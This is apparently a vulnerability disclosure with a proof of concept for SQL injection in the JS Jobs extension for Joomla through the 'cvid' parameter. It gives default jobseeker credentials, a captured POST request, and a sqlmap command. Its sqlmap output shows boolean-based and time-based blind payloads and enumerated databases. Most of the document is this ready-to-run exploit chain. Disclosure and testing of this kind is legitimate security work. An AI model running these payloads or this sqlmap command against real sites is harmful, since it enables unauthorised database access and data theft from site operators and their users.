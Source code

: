 # SQL injection in JS jobs version 1.1.5 - 1.4.2 for Joomla

**CVE Link:** Pending

**JS Jobs:** https://joomsky.com/js-jobs-joomla

## Introduction
An SQL injection vulnerability exists in the JS Jobs extension (v1.4.2) via the 'cvid' parameter and is exploitable as the jobseeker user.

## POC
To exploit this vulnerability login as the jobseeker user with default credentials (jobseeker:demo) and go to 'jobseeker-controlpanel >> My Stuff >> Newest Jobs >> Newest Jobs >> Apply Now >> Apply Now' and capture the "Apply Now" request.

**HTTP Request:**
```
POST /index.php?option=com_jsjobs&task=jobapply.jobapplyajax HTTP/2
Host: localhost:8080
Cookie: joomla_user_state=logged_in; 67aa5f9b49e233456b916ea62ef1447b=kjou43pssdvaa5plr84dhc8P64
Content-Length: 38
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Sec-Ch-Ua: "Chromium";v="137", "Not/A)Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://localhost:8080
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:8080/index.php/component/jsjobs/newest-jobs?Itemid=
Accept-Encoding: gzip, deflate, br
Priority: u=1, i

jobid=1&cvid=1&coverletterid=4&uid=460
```

**Exploit:**
```
sqlmap -r req.txt --dbs --batch -p cvid --dbms=mysql --threads=10
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.9.1.2#dev}
|_ -| . [']     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

---
Parameter: cvid (POST)
Type: boolean-based blind
Title: Boolean-based blind - Parameter replace (original value)
Payload: jobid=1&cvid=(SELECT (CASE WHEN (7270=7270) THEN 1 ELSE (SELECT 6098 UNION SELECT 7386) END))&coverletterid=4&uid=460

Type: time-based blind
Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
Payload: jobid=1&cvid=1 AND (SELECT 6497 FROM (SELECT(SLEEP(5)))EAyv)&coverletterid=4&uid=460
---

available databases [2]:
[*] joomla_db
[*] information_schema
```

